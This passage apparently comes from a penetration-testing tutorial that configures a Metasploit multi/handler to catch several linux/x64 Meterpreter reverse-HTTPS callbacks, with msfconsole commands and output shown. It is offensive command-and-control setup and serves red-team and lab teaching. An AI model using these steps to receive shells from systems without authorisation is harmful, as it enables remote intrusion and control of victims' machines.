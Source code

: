 ```console
                     #####       ########
                       ###       #########
                      ######    ############
                     #######################
                     #   #   ###  #   #   ##
                     ########################
                      ##     ##   ##     ##
                            https://metasploit.com


       =[ metasploit v5.0.67-dev                          ]
+ -- --=[ 1957 exploits - 1093 auxiliary - 336 post       ]
+ -- --=[ 558 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 7 evasion                                       ]

msf5 > 
```

The module we will use is called the multi/handler.  This is a module that is used to receive any callbacks.  Then set the payload to match our payload.

```console
msf5 > use multi/handler
msf5 exploit(multi/handler) > set payload linux/x64/meterpreter_reverse_https
payload => linux/x64/meterpreter_reverse_https
msf5 exploit(multi/handler) > options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (linux/x64/meterpreter_reverse_https):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The local listener hostname
   LPORT  8443             yes       The local listener port
   LURI                    no        The HTTP Path


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target

```

Then set the LHOST and LPORT.  This would normally be enough to receive the callback, however in this scenario we will be getting multiple callbacks.  To fix this, we will need to change the advanced setting ExitOnSession to false and run the handler as a job.
